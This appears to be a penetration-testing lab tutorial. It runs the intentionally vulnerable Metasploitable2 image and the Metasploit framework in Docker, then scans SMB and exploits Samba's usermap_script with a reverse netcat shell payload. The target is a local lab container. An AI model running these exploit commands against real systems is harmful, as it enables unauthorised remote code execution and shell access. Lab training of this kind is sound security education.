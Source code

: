 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
- Enable metaspoilt module and keep running
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"`

- Get Target IP
    - `docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable`

- Optional
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`

- Explanation of vulnerable
    - -p 445:445：開放 SMB（檔案共享漏洞）
    - -p 21:21：開放 FTP（容易被暴力破解）
    - -p 22:22：開放 SSH（可能存在弱密碼）
    - -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`  # check docker status
`docker rm -f vulnerable`  # if docker exist, but didn't running then delete it.
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"` # rerun vul docker
`docker start vulnerable`  # rerun

# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`
`help  # check metasploit status`

- Optional
`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`

# 4. Scan target system
- Enable metaspoilt moudle
    - `use exploit/multi/samba/usermap_script`

- In metaspoilt command line
    - `msf6 > use auxiliary/scanner/smb/smb_version`
    - `msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2`
    - `msf6 auxiliary(scanner/smb/smb_version) > run`  # check port and vul

# 5. Exploit
- Load script
    - msf6 > `use exploit/multi/samba/usermap_script`

- Set target and payload
    - msf6 exploit(multi/samba/usermap_script) > `set RHOSTS 172.17.0.2`
    - msf6 exploit(multi/samba/usermap_script) > `check`
    - msf6 exploit(multi/samba/usermap_script) > `set PAYLOAD cmd/unix/reverse_netcat`

- Set reverse local host and attack
    - msf6 exploit(multi/samba/usermap_script) > `set LHOST 172.17.0.3`
    - msf6 exploit(multi/samba/usermap_script) > `exploit`

